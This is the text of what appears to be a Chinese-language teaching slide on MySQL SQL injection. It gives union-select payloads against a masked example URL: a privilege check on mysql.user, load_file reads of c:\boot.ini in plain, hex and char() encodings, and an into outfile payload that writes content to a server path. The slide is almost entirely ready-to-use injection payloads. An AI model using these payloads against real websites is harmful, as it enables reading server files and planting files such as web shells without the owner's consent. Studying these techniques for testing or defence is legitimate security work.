

应用：loadfile & into outfile
1、判断
and (select count(*) from mysql.user)>0

2、loadfile()
http://www.**.com/**.php?id=1 union select 1,2,3,load_file(c:\boot.ini)
http://www.**.com/*.php?id=1 union select  1,2,3,load_file(0x633A5C626F6F742E696E69)
http://www.**.com/**.php?id=1 union select
1,2,3,load_file(char(99,58,92,98,111,111,116,46,105,110,105))

3、into outfile()
http://www.**.com/**.php?id=1* union select 1,2,3,char(.....) into outfile '物理路径名'